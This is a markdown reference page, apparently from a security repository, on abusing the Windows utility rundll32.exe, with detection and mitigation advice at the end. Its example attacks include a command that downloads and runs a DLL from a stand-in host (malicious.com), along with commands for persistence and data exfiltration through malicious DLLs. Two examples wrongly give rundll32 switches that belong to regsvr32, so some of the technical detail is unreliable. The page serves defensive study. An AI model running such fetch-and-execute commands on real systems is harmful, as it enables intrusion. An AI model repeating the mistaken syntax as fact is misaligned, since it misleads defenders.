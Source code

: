 # rundll32.exe
## What is it?
*```rundll32.exe``` is a Windows utility that allows for the execution of functions stored in dynamic link library (DLL) files. It is typically used by administrators and developers to run specific functions within DLL files without needing to write an application for that function.*

*Because it is a trusted system utility, it is often abused by attackers to run malicious code stored in a DLL, bypassing security measures and evading detection.*

## Legitimate Usage
- **Execute Functions in DLL Files** → ```rundll32.exe``` is used to execute specific functions within DLL files without the need for a separate executable.
- **System Configuration & Maintenance** → Administrators may use it for configuring system settings or running maintenance tasks that are encapsulated in DLL files.
- **Loading Control Panel Applets** → It is used for launching certain control panel applets or settings from within the operating system.
- **Running Scripts & Applications via DLL** → System administrators and developers may use it to automate various system tasks.

## How to abuse it
- **Executing Malicious Code** → Attackers can use ```rundll32.exe``` to load and execute a malicious DLL or payload.
- **Bypassing Application Whitelisting** → Since ```rundll32.exe``` is a trusted, signed Windows binary, attackers can use it to execute malicious code and bypass application control policies.
- **Persistence via DLL Execution** → Attackers can use ```rundll32.exe``` to maintain access by executing malicious DLLs that allow them to persist on the system.
- **Exfiltration of Data** → ```rundll32.exe``` can be used to exfiltrate data by executing a DLL that uploads sensitive files to remote servers.

## Example attacks
### 1. Running Malicious DLL
*Attackers can use ```rundll32.exe``` to execute malicious code stored within a DLL.*

**Run Malicious DLL with rundll32**

```
rundll32.exe malicious.dll,EntryPoint
```

**Effect:**
- **```malicious.dll```** → The malicious DLL file that contains the attacker's payload.
- **```EntryPoint```** → The function in the DLL to execute. This function could be any arbitrary code, such as a backdoor or data exfiltration routine.

### 2. Persistence via DLL Execution
*Attackers can register a malicious DLL to run every time ```rundll32.exe``` is invoked.*

**Set up Malicious DLL for Persistence**

```
rundll32.exe /s /u /i:malicious.dll
```

**Effect:**
- The malicious DLL will be executed every time the system calls ```rundll32.exe``` with the appropriate parameters, providing persistent access.

### 3. Exfiltration via Malicious DLL
*Attackers can use ```rundll32.exe``` to execute a DLL that steals data and sends it to a remote server.*

**Exfiltrate Data via rundll32**

```
rundll32.exe exfiltration.dll,UploadData
```

**Effect:**
- **```exfiltration.dll```** → A DLL that includes a function to steal sensitive data.
- **```UploadData```** → The function in the DLL that uploads stolen data to an attacker-controlled server.

### 4. Bypassing Application Whitelisting
*Since ```rundll32.exe``` is a trusted binary, attackers can use it to bypass application whitelisting or other security controls.*

**Bypass Whitelisting Using rundll32**

```
rundll32.exe /s /u /i:http://malicious.com/malicious.dll
```

**Effect:**
- The attacker downloads and executes a malicious DLL via ```rundll32.exe```, bypassing whitelisting measures that would otherwise block direct execution of the payload.

### 5. DLL Hijacking with rundll32
*An attacker can place a malicious DLL with the same name as a legitimate system DLL, causing ```rundll32.exe``` to load and execute the malicious DLL instead.*

**Exploit DLL Hijacking with rundll32**

```
rundll32.exe legitimate.dll,Function
```

**Effect:**
- If the attacker places the malicious DLL with the same name as a legitimate system DLL in a trusted directory, the ```rundll32.exe``` command will load the malicious DLL, executing arbitrary code in place of the legitimate function.

# Detection & Mitigation
## Detection Methods
**Monitor rundll32.exe Executions**
- **Event ID 4688 (Process Creation)** → Look for unusual use of ```rundll32.exe```, particularly when invoked with suspicious arguments such as external URLs or untrusted DLLs.
- **Network Traffic Analysis** → Detect abnormal outbound traffic, especially when a DLL is downloading a payload from an external server.
- **File Integrity Checks** → Track changes to DLLs or suspicious DLL registrations that may signal malicious activity.

**Suspicious DLL Execution**
- **Event ID 4697 (Service Installation)** → Detect when a DLL is registered or executed using ```rundll32.exe``` for persistence or data exfiltration.
- **Look for DLLs with unusual names** or those found in unusual directories, which may indicate malicious activity.

## Mitigation Strategies
- **Use Application Control** → Implement Application Whitelisting (AppLocker or WDAC) to prevent unauthorized execution of ```rundll32.exe``` or unknown DLL files.
- **Monitor Windows Event Logs** → Regularly review Event Viewer logs for suspicious ```rundll32.exe``` activity, particularly when invoked with suspicious DLLs.
- **Restrict User Privileges** → Limit administrative privileges and prevent unauthorized users from executing ```rundll32.exe``` or registering DLL files.
- **Block Untrusted Network Traffic** → Prevent downloading of DLLs from untrusted sources by blocking outbound traffic to unknown IPs or URLs.
- **Limit DLL Registration** → Restrict DLL registration to trusted applications and users only, and prevent unauthorized DLLs from being executed.
